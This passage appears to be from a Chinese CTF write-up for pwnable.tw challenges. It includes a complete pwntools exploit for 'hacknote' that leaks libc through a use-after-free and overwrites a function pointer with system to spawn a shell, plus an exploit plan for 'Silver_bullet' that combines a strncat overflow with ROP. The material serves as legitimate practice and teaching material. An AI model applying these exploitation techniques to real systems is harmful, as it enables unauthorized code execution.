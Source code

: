 ## 漏洞利用
* 有函数指针的使用
* 想办法盖掉函数指针或者参数来实现自己的目的
* 先泄露地址就盖掉参数
* 把原来的函数指针指向system执行system("addr;sh"); 或者||也都可以用

## EXP
```python
from pwn import *
def cmd(c):
	p.sendlineafter("Your choice :",str(c))
def add(size,c):
	cmd(1)
	p.sendlineafter("Note size :",str(size))
	p.sendafter("Content :",c.ljust(size,'\0'))
def printf(i):
	cmd(3)
	p.sendlineafter("Index :",str(i))
def remove(i):
	cmd(2)
	p.sendlineafter("Index :",str(i))
context.log_level="debug"
#p=process("./hacknote",env={"LD_PRELOAD":"./libc_32.so.6"})
p=remote("chall.pwnable.tw",10102)
libc=ELF("./libc_32.so.6")
log.warning(hex(libc.symbols['puts']))
log.warning(hex(libc.symbols['system']))
bin=ELF("./hacknote")
add(8,"A")
add(24,"/nier")
remove(0)
remove(1)
add(8,p32(0x804862B)+p32(0x804a024))
printf(0)
data=p.read(4)
libc.address=u32(data)-libc.symbols['puts']
log.warning(hex(libc.address))
remove(2)
add(8,p32(libc.symbols['system'])+"||sh")
printf(0)
p.sendline("cat /home/hacknote/flag")
p.interactive(">")
```
# Silver_bullet
## Analysis
* 三个功能
* 创建，升级，打怪
比较简单漏洞点在
```arm
strncat(s, &buf, 0x30 - *((_DWORD *)s + 12));
```
strncat如果填满会在size位填上0覆盖掉之前的size造成第二次利用升级功能时会溢出
## 思路
* 创建，升级造成溢出
* 构造rop泄露地址
* 打怪退出 得到泄露 返回main
* 以上再做一次get shell


[1]: https://code.woboq.org/qt5/include/linux/prctl.h.html
[2]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[3]: https://blog.csdn.net/qq_19683651/article/details/61418292
[4]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[5]: https://n132.github.io/2019/02/11/Kidding/
[6]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[7]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[8]: https://n132.github.io/2019/02/23/mno2/
[9]: https://code.woboq.org/userspace/glibc/time/tzset.c.html#__tz_convert